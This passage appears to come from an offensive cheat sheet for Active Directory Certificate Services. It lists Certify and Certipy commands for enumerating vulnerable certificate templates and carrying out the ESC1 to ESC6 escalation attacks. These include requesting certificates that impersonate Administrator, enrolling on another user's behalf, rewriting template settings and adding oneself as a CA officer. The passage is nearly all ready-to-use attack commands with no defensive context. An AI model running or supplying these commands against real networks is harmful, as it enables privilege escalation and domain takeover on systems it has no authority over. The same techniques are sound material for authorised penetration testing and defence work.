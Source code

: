 #### **Windows:**
```powershell
# Certify Complete Enumeration
.\Certify.exe find /vulnerable /currentuser
.\Certify.exe find /vulnerable /machineidentity
.\Certify.exe cas
.\Certify.exe pkiobjects
```

### **🎯 ESC1-8 Attack Scenarios**

#### **ESC1 - Vulnerable Certificate Templates**
```bash
# Linux - Certipy
certipy req -u lowpriv@domain.com -p password -target CA_SERVER -template VulnTemplate -alt Administrator@domain.com
certipy auth -pfx administrator.pfx -dc-ip DC_IP

# Windows - Certify
.\Certify.exe request /ca:CA_SERVER\CA_NAME /template:VulnTemplate /altname:Administrator
```

#### **ESC2 - Any Purpose EKU**
```bash
# Request certificate with Any Purpose EKU
certipy req -u lowpriv@domain.com -p password -target CA_SERVER -template AnyPurpose -alt Administrator@domain.com
```

#### **ESC3 - Certificate Request Agent**
```bash
# Use Certificate Request Agent to request on behalf of others
certipy req -u lowpriv@domain.com -p password -target CA_SERVER -template RequestAgent
certipy req -u lowpriv@domain.com -p password -target CA_SERVER -template User -on-behalf-of domain\\Administrator -pfx lowpriv.pfx
```

#### **ESC4 - Vulnerable Certificate Template Access Control**
```bash
# Modify vulnerable template
certipy template -u lowpriv@domain.com -p password -template VulnTemplate -save-old
certipy template -u lowpriv@domain.com -p password -template VulnTemplate -configuration SubjectAltRequireUPN=False -configuration SubjectAltRequireDNS=False
```

#### **ESC5 - Vulnerable PKI Object Access Control**
```bash
# Exploit vulnerable CA permissions
certipy ca -u lowpriv@domain.com -p password -dc-ip DC_IP -ca CA_NAME -add-officer lowpriv
```

#### **ESC6 - EDITF_ATTRIBUTESUBJECTALTNAME2**
```bash
# Exploit misconfigured CA flag
certipy req -u lowpriv@domain.com -p password -target CA_SERVER -template User -alt Administrator@domain.com
```
